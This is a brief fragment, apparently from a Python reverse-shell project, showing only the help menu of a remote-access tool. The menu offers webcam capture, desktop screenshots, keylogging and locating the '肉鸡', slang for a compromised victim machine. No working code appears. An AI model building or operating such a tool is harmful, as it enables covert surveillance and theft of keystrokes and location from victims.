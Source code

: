 # python 反向shell

    print("!photograph --> 摄像头照片")
    print("!screen --> 桌面照片")
    print("!keyboard --> 键盘监听")
    print("!location --> 获取肉鸡的地址位置")
    print("!select --> return to select")
    print("!quit --> exit")
